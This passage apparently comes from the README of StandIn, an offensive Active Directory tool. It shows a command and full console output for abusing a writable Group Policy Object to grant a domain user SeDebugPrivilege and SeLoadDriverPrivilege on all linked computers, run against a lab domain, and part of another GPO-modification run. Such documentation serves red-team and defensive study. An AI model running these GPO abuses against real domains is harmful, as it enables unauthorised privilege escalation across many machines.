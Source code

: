 ```
    SID      : S-1-5-21-315358687-3711474269-2098994107-1106

[?] GPO Version
    User     : 0
    Computer : 0

[+] Writing GPO changes
    |_ Creating GptTmpl.inf
    |_ Updating gpt.inf
    |_ Updating AD object
       |_ Incrementing version number
       |_ Creating gPCMachineExtensionNames
```

### GPO add user privilege

> *With the appropriate permissions it is possible to enable a token privilege for a domain user on a vulnerable GPO.*

#### Syntax

Add `token` privilege to a user account for all linked computer objects tied to the `Shards` GPO. This function can both create the required files and also update existing files. **Use with caution.**

```
C:\Users\user001\Desktop>StandIn.exe --gpo --filter Shards --setuserrights user002 --grant "SeDebugPrivilege,SeLoadDriverPrivilege"

[+] Validating account rights
    |_ Rights count: 2
       |_ SeDebugPrivilege
       |_ SeLoadDriverPrivilege

[?] Using DC : m-w16-dc01.main.redhook.local

[+] GPO Object Found
    Object   : CN={58890948-8DE3-4A39-8C40-F68004186693}
    Path     : LDAP://CN={58890948-8DE3-4A39-8C40-F68004186693},CN=Policies,CN=System,DC=redhook,DC=local
    GP Path  : \\redhook.local\SysVol\redhook.local\Policies\{58890948-8DE3-4A39-8C40-F68004186693}

[+] User Object Found
    Object   : CN=user 002
    Path     : LDAP://CN=user 002,CN=Users,DC=redhook,DC=local
    SID      : S-1-5-21-315358687-3711474269-2098994107-1106

[?] GPO Version
    User     : 0
    Computer : 1

[+] Writing GPO changes
    |_ Updating existing GptTmpl.inf
       |_ Adding GPO Privileges
       |_ Updating revision
    |_ Updating gpt.inf
    |_ Updating AD object
       |_ Incrementing version number
       |_ Updating gPCMachineExtensionNames
```
